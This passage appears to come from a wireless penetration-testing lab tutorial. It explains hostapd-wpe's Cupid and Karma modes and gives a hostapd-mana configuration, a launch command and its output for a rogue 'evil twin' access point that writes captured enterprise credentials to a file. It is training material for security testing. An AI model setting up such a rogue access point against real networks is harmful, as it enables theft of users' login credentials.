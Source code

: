 Here’s an explanation of the options used with hostapd-wpe:

- `-c Cupid Mode`: Enables Heartbleed vulnerability testing for connected clients. This mode attempts to exploit vulnerable devices by leveraging the Heartbleed bug in OpenSSL.
- `-k Karma Mode`: Configures the rogue AP to respond to all probe requests, effectively tricking clients into connecting by mimicking their preferred networks.

Optionally, if we prefer to use `hostapd-mana` to host the rogue AP, we will need to enable Karma Mode (Mana) in the configuration file. Unlike `hostapd-wpe`, which allows us to specify Karma Mode directly via the command line argument (-k), `hostapd-mana` requires us to configure it within the file itself. This setup allows the rogue AP to respond to all probe requests.

To use hostapd-mana, `append` the configuration `hostapd.conf` file with following:

```configuration
enable_mana=1
mana_loud=1
mana_credout=credentials.creds
mana_eapsuccess=1
mana_wpe=1

```

- `enable_mana=1`: Enables Karma (mana) mode to respond to all probe requests.
- `mana_loud=1`: Makes the rogue AP more noticeable by aggressively responding to probe requests, increasing the chances of clients connecting.
- `mana_credout=credentials.creds`: Specifies the file where captured credentials will be saved.
- `mana_eapsuccess=1`: Forces a successful EAP authentication, even if the client doesn’t complete the full process.
- `mana_wpe=1`: Enables WPA Enterprise functionality, making the rogue AP act as an enterprise AP for relaying captured credentials.

To start the rogue AP using hostapd-mana we use following command:

```shell
hostapd-mana hostapd.conf

Configuration file: hostapd.conf
MANA: Captured credentials will be written to file 'credentials.creds'.
rfkill: Cannot open RFKILL control device
Using interface wlan1 with hwaddr 00:11:22:33:44:00 and ssid "HTB-Wireless"
random: Only 18/20 bytes of strong random data available from /dev/random
random: Not enough entropy pool available for secure operations
WPA: Not enough entropy in random pool for secure operations - update keys later when the first station connects
wlan1: interface state UNINITIALIZED->ENABLED
wlan1: AP-ENABLED

```

* * *

### 4\. Deauthenticate Connected Clients

If everything is set up correctly, our access point should be operational and ready to capture credentials from client devices. To observe our access point in action and monitor the connectivity of client devices, we can start an `airodump-ng` session in a second terminal.
